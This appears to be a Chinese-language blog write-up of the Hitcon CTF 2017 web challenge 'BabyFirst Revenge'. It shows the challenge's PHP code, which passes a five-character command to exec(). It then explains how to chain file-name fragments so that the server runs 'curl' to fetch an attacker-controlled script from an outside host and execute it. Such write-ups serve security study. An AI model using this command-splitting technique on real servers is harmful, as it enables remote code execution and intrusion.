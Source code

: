 ```yaml
---
title:  Hitcon CTF 2017 Web  Write-up
subtitle: XCTFtime
time: 2017.11.08 10:00:00
layout: post
catalog: true
tags:
- CTF
- Web
excerpt: 上周末打了一Hitcon比赛，国际赛果然难度很大。😂一共才做出一道题，BabyFirst Revenge。

---
```


# Hitcon2017

## BabyFirst Revenge

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);

```

构造这样的sh脚本,

```
curl xxx.xxx>1
```

这样就能从外部下载一个1文件，而1中内容可由我们可控。另外，为了保证cmd长度小于5，我们可以这样构造，每个请求生成一个文件，然后利用ls把文件名拼接写入文件。

思路参考：http://wonderkun.cc/index.html/?p=524（通过`>xx`,新建文件。`ls >m\` 将文件名以字典序写到一个文件中。`sh m*`来执行文件。)

a文件内容可以如下：

```bash
cur\
l\ \
m\
na\
nb\
nc\
xx.\
xy.\
z\>1
```
